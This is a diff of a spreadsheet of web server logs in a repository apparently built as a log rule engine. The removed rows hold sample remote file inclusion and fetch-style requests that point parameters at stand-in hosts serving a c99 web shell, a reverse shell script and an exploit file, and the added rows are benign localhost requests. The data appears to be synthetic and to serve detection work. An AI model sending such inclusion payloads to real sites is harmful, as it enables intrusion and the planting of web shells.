

Before and after one commit to cyberhub2025/Rule-Engine, an Excel workbook: raw_logs.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown; values as stored, in another font and other column widths than the file's, no borders; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/raw_logs.xlsx (sheet Sheet1)
+++ b/raw_logs.xlsx (sheet Sheet1)
-row 2: 203.0.113.42 | 31/Mar/2026 | 02:23:47 | GET | /index.php?page=http://10.0.0.5/reverse_shell.txt | 500
-row 3: 203.0.113.42 | 31/Mar/2026 | 02:25:34 | GET | /api/fetch?url=http://evil-domain.com/c99.php | 500
-row 4: 203.0.113.42 | 31/Mar/2026 | 02:27:22 | GET | /modules/load.php?mod=http://evil-domain.com/c99.php | 403
-row 5: 203.0.113.42 | 31/Mar/2026 | 02:27:51 | GET | /modules/load.php?mod=http://10.0.0.5/reverse_shell.txt | 500
-row 6: 203.0.113.42 | 31/Mar/2026 | 02:27:58 | GET | /template.php?layout=http://evil-domain.com/c99.php | 403
+row 2: 127.0.0.1 | 12/Apr/2026 | 22:58:28 | GET | / | 302
-A3 (IP): 203.0.113.42
+A3 (IP): 127.0.0.1
-B3 (Date): 31/Mar/2026
+B3 (Date): 12/Apr/2026
-C3 (Time): 02:29:05
+C3 (Time): 22:58:28
-E3 (URL): /template.php?layout=http://pastebin.com/raw/AbCdEfGh
+E3 (URL): /login
-row 8: 203.0.113.42 | 31/Mar/2026 | 02:29:50 | GET | /index.php?page=https://raw.githubusercontent.com/payloadbox/command-injection-payload-list/master/README.md | 403
-row 9: 203.0.113.42 | 31/Mar/2026 | 02:30:08 | GET | /api/fetch?url=http://10.0.0.5/reverse_shell.txt | 500
-row 10: 203.0.113.42 | 31/Mar/2026 | 02:30:46 | GET | /content.php?inc=http://evil-domain.com/c99.php | 200
-row 11: 203.0.113.42 | 31/Mar/2026 | 02:30:59 | GET | /modules/load.php?mod=http://evil-domain.com/c99.php | 500
-row 12: 203.0.113.42 | 31/Mar/2026 | 02:32:18 | GET | /modules/load.php?mod=https://raw.githubusercontent.com/payloadbox/command-injection-payload-list/master/README.md | 403
-row 13: 203.0.113.42 | 31/Mar/2026 | 02:33:25 | GET | /modules/load.php?mod=http://pastebin.com/raw/AbCdEfGh | 500
-row 14: 203.0.113.42 | 31/Mar/2026 | 02:34:18 | GET | /api/fetch?url=ftp://attacker.net/pub/exploit.php | 403
-row 15: 203.0.113.42 | 31/Mar/2026 | 02:36:15 | GET | /template.php?layout=http://10.0.0.5/reverse_shell.txt | 403
-row 16: 203.0.113.42 | 31/Mar/2026 | 02:37:52 | GET | /modules/load.php?mod=https://raw.githubusercontent.com/payloadbox/command-injection-payload-list/master/README.md | 403
-row 17: 203.0.113.42 | 31/Mar/2026 | 02:38:40 | GET | /index.php?page=http://evil-domain.com/c99.php%00 | 500
-row 18: 203.0.113.42 | 31/Mar/2026 | 02:40:30 | GET | /template.php?layout=http://evil-domain.com/c99.php | 200
-row 19: 203.0.113.42 | 31/Mar/2026 | 02:41:11 | GET | /api/fetch?url=http://10.0.0.5/reverse_shell.txt | 404
-A4 (IP): 203.0.113.42
+A4 (IP): 127.0.0.1
-B4 (Date): 31/Mar/2026
+B4 (Date): 12/Apr/2026
-C4 (Time): 02:42:35
+C4 (Time): 22:58:28
-E4 (URL): /api/fetch?url=http://10.0.0.5/reverse_shell.txt
+E4 (URL): /favicon.ico
```
Also changed, not shown: 11 added rows, 64 removed rows and 68 edited cells elsewhere in this sheet, threat_logs.xlsx, 2 other files.
